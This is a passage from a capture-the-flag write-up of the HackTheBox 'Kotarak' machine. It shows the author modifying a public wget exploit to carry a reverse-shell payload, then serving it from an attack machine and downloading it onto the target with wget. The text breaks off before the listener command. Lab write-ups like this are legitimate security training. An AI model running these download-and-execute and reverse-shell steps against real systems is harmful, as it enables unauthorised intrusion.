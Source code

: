 
2) Copy the exploit and modify it. 

We can just copy the exploit from the POC to our attack machine and make the following changes:

![changes-50](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Kotarak/img/changes-50.png)


I upadted the HTTP and FTP servers settings, and I replaced the cronjob payload with a reverse shell payload which I verified that works beforehand. 


3) Transfer this exploit over to the target.

I do this using a simple python server on my attack machine:

```bash
python3 -m http.server 80
```

And I download the file from the target using `wget`:

```bash
wget http://10.10.14.50/wget-exploit.py; chmod +x wget-exploit.py
```


4) Start the FTP server.

For this we need to start another shell on the target in order to run the FTP server on. So I just repeat the Tomcat exploit using a new WAR payload. Then we can run the following to start the FTP server:

```bash
autbind python -m pyftpdlib 
```

![start-ftp-51](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Kotarak/img/start-ftp-51.png)


Looks good. 


5) Start the local listener for the reverse shell.

I do this with:
